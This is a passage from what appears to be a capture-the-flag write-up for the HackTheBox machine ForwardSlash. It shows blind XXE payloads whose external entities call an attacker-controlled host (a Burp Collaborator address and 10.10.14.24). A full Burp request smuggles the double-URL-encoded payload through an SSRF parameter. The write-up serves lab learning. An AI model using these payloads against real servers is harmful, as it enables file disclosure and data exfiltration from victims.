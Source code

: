Interestingly, the source shows that this form submits a GET request:

```

<form action="/dev/index.php" method="get" id="xmltest">

```

I wasn’t able to get the page to display back to me `/etc/passwd` the way I could when I could access the page as admin. But I didn’t spent too much time on it, rather focusing on FTP. I had to try a few payloads from the [payloadsallthethings XXE page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) but one of the blind payloads worked. I started with this:

```

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>

```

I first tried it as HTTP, updated it to connect back to me:

```

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://10.10.14.24/x"> %ext;
]>
<r></r>

```

I started `nc` on 80, and sent the payload with Burp Repeater:

```

POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://backup.forwardslash.htb/profilepicture.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 583
Connection: close
Cookie: PHPSESSID=q0gqh5u3ak0hltppu9jq91iu0a
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

url=http://backup.forwardslash.htb/dev/index.php?xml=%253c%253f%2578%256d%256c%2520%2576%2565%2572%2573%2569%256f%256e%253d%2522%2531%252e%2530%2522%2520%253f%253e%250d%250a%253c%2521%2544%254f%2543%2554%2559%2550%2545%2520%2572%256f%256f%2574%2520%255b%250d%250a%253c%2521%2545%254e%2554%2549%2554%2559%2520%2525%2520%2565%2578%2574%2520%2553%2559%2553%2554%2545%254d%2520%2522%2568%2574%2574%2570%253a%252f%252f%2531%2530%252e%2531%2530%252e%2531%2534%252e%2533%2534%252f%2578%2522%253e%2520%2525%2565%2578%2574%253b%250d%250a%255d%253e%250d%250a%253c%2572%253e%253c%252f%2572%253e

```
